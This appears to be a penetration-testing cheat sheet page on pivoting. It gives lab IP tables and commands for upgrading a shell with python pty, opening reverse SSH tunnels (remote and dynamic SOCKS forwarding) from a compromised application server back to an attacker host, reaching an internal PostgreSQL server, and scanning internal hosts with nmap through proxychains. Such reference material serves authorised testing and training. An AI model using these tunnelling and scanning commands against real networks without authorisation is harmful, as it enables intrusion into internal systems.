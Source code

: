 #### Remote Port Forwarding

| System | IP address |
| --- | --- |
| LHOST | 192.168.50.10 |
| APPLICATION SERVER | 192.168.100.10 |
| DATABASE SERVER | 10.10.100.20 |
| WINDOWS HOST | 172.16.50.10 |

- LHOST <-> FIREWALL <-> APPLICATION SERVER > DATABASE SERVER > WINDOWS HOST

##### LHOST

```console
$ sudo systemctl start ssh
$ sudo ss -tulpn
```

##### APPLICATION SERVER

```console
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
$ ssh -N -R 127.0.0.1:2345:10.10.100.20:5432 <USERNAME>@192.168.50.10
```

##### LHOST

```console
$ psql -h 127.0.0.1 -p 2345 -U postgres
```

#### Remote Dynamic Port Forwarding

| System             | IP address     |
| ------------------ | -------------- |
| LHOST              | 192.168.50.10  |
| APPLICATION SERVER | 192.168.100.10 |
| DATABASE SERVER    | 10.10.100.20   |
| WINDOWS HOST       | 172.16.50.10   |

- LHOST < FIREWALL < APPLICATION SERVER > NETWORK

##### APPLICATION SERVER

```console
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
$ ssh -N -R 9998 <USERNAME>@192.168.50.10
```

##### LHOST

```console
$ sudo ss -tulpn
$ tail /etc/proxychains4.conf
socks5 127.0.0.1 9998
$ proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.10.100.20
```
